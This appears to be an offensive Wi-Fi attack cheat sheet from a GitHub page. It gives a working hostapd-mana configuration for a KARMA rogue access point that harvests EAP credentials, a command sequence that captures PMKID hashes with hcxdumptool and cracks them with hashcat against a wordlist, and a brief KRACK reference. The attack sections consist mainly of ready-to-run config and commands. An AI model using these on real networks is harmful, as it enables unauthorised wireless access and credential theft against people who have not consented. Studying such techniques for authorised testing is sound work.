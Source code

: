 ### KARMA Attack
Attacker will look for client probe requests and immediately change the SSID it is broadcasting to match the probe request of the client. Responding to everyone.  

karma.conf
```
interface=wlan1
ssid=nothing
channel=6
hw_mode=g
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
auth_algs=3
ieee8021x=1
eapol_key_index_workaround=0
eap_server=1
eap_user_file=/root/certs/hostapd.eap_user
ca_cert=/root/certs/server.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
private_key_passwd=
dh_file=/root/certs/dhparam.pem
mana_wpe=1
mana_eapsuccess=1
enable_mana=1
```

### PMKID Attack
Traditional handshake capture and brute force methods wait for client to de-authenticate and re-authenticate while PMKID attack doesn’t. Direct PMKID is captured in this attack and then cracked.  

Many routers cache PMKID of exchange process in a collection of information PMKSA, so that the next time client de and re-authenticates 4-way handshake won’t be done again and router would directly ask the client for PMKSA, verify it and he would be re-associate it back with an access point.  

PMKID is a field in the RSN IE frame (Robust Security Network Information Element). RSN IE is an optional frame found in routers.  

```
apt install hcxtools
hcxdumptool -o PMKID_results -i wlan0mon
hcxpcaptool -z hashPMKID PMKID_results
```

Cracking PMKID hashes using hashcat (newer version of hashcat -m 22000)
```
hashcat -a 0 -m 16800 pmkid.txt ../../wordlists/wordlistsOnex/
```

### Key Reinstallation Attack (KRACK)
- https://www.krackattacks.com/
KRACK attack or Key Reinstallation Attack. 
